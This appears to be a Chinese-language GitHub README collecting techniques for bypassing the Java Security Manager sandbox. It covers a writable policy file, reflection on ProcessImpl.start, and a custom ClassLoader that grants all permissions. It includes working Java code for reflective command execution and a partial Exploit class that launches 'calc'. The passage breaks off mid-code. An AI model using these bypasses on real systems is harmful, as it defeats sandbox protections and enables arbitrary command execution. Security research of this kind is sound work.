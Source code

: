 # bypass-sm

https://www.anquanke.com/post/id/151398

https://www.mi1k7ea.com/2020/05/03/%E6%B5%85%E6%9E%90Java%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8/

https://github.com/codeplutos/java-security-manager-bypass/



## **单等号+home目录可写导致Java Security Manager绕过**

>简单的说就是java程序启动的时候使用 -Djava.security.policy=java.policy 并且home目录可以写，我们就重新写一个policy 文件去提升我们的权限

## **通过setSecurityManager绕过Java Security Manager**

>就是通过反射去修改值达到绕过的目标。

其中的该反射可以成功，原因：

从代码中我们看到，正如前面所说，完成功能的是ProcessImpl.start方法，而在这个方法调用之前，security manager就已经完成了检测，于是，反射这个方法，调用它，就可以绕过检测。

[java 命令执行底层](https://blog.csdn.net/qsort_/article/details/104821283)

```java
   public static void executeCommandWithReflection(String command){
        try {
            Class clz = Class.forName("java.lang.ProcessImpl");
            Method method = clz.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
            method.setAccessible(true);
            method.invoke(clz,new String[]{command},null,null,null,false);
        }catch (Exception e){
            e.printStackTrace();
        }
    }
```

## **创建类加载器绕过java security manager**

>自定义一个ClassLoader来加载一个恶意类，并且把它的ProtectionDomain里面的权限初始化成所有权限，这样就能绕过Java Security Manager了

[自定义ClassLoader绕过poc为什么很多人执行出现问题的缘由](https://github.com/codeplutos/java-security-manager-bypass/issues/2)

Exploit.java

```java
import java.security.AccessController;
import java.security.PrivilegedAction;

public class Exploit {
    public Exploit() {

    }

    static {
        AccessController.doPrivileged(new PrivilegedAction() {
            public Object run() {
                try {
                    Process process = Runtime.getRuntime().exec("calc");
                    return null;
                } catch (Exception var2) {
                    var2.printStackTrace();
                    return null;
                }
```